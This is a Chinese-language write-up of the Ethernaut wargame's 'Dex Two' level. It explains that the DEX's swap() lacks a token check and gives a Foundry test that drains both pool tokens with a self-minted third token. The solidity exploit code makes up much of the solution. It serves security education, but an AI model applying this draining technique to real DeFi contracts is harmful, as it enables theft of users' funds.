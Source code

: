 <div align="center">
<p align="left">(<a href="https://github.com/XuHugo/Ethernaut-Foundry-Solutions/tree/main/solutions">back</a>)</p>

<img src="../imgs/levels/23-dexTwo.webp" width="600px"/>
<br><br>
<h1><strong>Ethernaut Level 23 - Dex Two</strong></h1>

</div>
<br>

详细解读文章: [Ethernaut Foundry Solutions | Level 23 - Dex Two](https://blog.csdn.net/xq723310/)

## 目录

- [目录](#目录)
- [目标](#目标)
- [漏洞](#漏洞)
- [解答](#解答)
- [要点](#要点)

## 目标

Dex Two 和 Dex 差别就在于, DexTwo 需要将Dex 合约中的 token1 以及 token2 两个代币通通归零。
<img src="../imgs/requirements/23-dexTwo-requirements.webp" width="800px"/>

## 漏洞

其实和前一关的合约几乎一模一样，唯一不同的地方出现在`swap()`，函式内少了一个行代码：
```javascript
require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");
```
正好缺少了token检查，现在的 Dex可以接受任何代币进行交换而不限于 token1 和 token2，导致 Dex 合约存在漏洞。

`swap()` 函数:

```javascript
function swap(address from, address to, uint amount) public {
    require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
    uint swapAmount = getSwapPrice(from, to, amount);
    IERC20(from).transferFrom(msg.sender, address(this), amount);
    IERC20(to).approve(address(this), swapAmount);
    IERC20(to).transferFrom(address(this), msg.sender, swapAmount);
  }
```

举个例子，假设我持有 400 个同为 ERC-20 的 token3，首先给 Dex 添加 100 个 token3 的流动性，可以通过批准后调用add_liquidity()或者直接转账给 Dex。

接下来，执行第一次`swap()`，from对应token3地址，to对应token1地址，amount为100，根据getSwapAmount()计价公式计算，我会减少100个token3，增加100个token1。

最后，执行第二次`swap()`，from对应token3地址，to对应token2地址，amount为200，同样的计价公式算完后，我会减少200个token3，增加100个token2。


## 解答

攻击合约实现

```javascript
    function testattacker() public {
        vm.startPrank(player1, player1);

        SwappableTokenTwo token3 = new SwappableTokenTwo(
            address(instance),
            "Token 3",
            "TKN3",
            10_000
        );

        token1.approve(address(instance), 2 ** 256 - 1);
        token2.approve(address(instance), 2 ** 256 - 1);
        token3.approve(address(instance), 2 ** 256 - 1);

        ERC20(token3).transfer(address(instance), 1);

        instance.swap(address(token3), address(token1), 1);
        instance.swap(address(token3), address(token2), 2);

        assertEq(
            token1.balanceOf(address(instance)) == 0 &&
                token2.balanceOf(address(instance)) == 0,
            true
        );

        vm.stopPrank();
    }
```

你可以在项目的根目录执行以下命令，进行验证：

```bash
forge test --match-contract  DexTwoTest  -vvvvv
```

## 要点

- 一定要验证入参啊.

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>
